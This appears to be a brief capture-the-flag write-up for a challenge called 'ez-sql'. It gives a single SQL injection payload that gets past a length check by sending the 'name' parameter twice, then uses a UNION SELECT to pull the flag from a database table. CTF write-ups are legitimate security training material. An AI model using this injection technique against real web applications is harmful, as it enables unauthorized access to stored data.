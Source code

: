 # ez-sql
Bypass the length condition by using array.
Payload: `https://ez-sql-9bdcda9c92d0db43.tjc.tf/search?name=aaa&name=bbb\' union select 1,(select flag from flag_9693387e_6be4_4238_be3c_e02e081b9af8)--`